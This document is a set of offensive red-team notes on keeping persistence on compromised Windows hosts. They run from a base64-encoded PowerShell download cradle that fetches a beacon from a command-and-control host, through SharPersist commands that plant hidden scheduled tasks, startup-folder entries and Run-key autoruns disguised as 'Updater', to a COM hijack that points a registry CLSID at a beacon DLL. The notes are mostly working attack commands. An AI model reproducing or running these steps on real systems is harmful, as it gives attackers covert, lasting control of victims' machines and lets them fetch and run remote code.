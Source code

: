 # Hoste Persistence Notes

**Task Scheduler**
Creating a scheduled task that will execute a PowerShell payload once every hour

1. Create an IEX cradle that's base64 encoded, /a is our hosted beacon
   ```
   Windows:
   $str = 'IEX ((new-object net.webclient).downloadstring("http://teamserver.com/a"))'
   [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
   Linux:
   set str 'IEX ((new-object net.webclient).downloadstring("http://teamserver.com/a"))'
   echo -en $str | iconv -t UTF-16LE | base64 -w 0
   ```
2. Execute it on the beacon for persistence
   ```
   execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64 blob>" -n "Updater" -m add -o hourly
   ```
    -t is the desired persistence technique.
    -c is the command to execute.
    -a are any arguments for that command.
    -n is the name of the task.
    -m is to add the task (you can also remove, check and list).
    -o is the task frequency.

**StartUp Folder**
Things that start automatically when a user first logs in
```
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64 blob>" -f "UserEnvSetup" -m add
```
-f is the filename to save as

**Registry Autorun**
AutoRun values in HKCU and HKLM allow applications to start on boot. 

steps in beacon
```
cd C:\ProgramData
upload C:\Payloads\http_x64.exe
mv http_x64.exe updater.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```
-k is the registry key to modify.
-v is the name of the registry key to create.

**Hunting for COM Hijacks**
Easier to hunt for hijacks on our own machine first. Launch procmon64.exe from [sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

We want to filter for
1. RegOpenKey operations
2. where the Result is NAME NOT FOUND
3. and Path ends with InprocServer32

Be important to find a CLSID that isn't loaded often
Example CLSID that we found: HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32

Checking that it exists in HKLM but not in HKCU
```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
```
Now create a registry entry that points HKCU to a Beacon DLL
```
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
Can find hijackable COM in Task Scheduler with this powershell script
```
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```
Review this list for possible exploitation parts by rechecking the HKCU and HKLM like above, and how often they are ran, lik at every user login or something of that nature
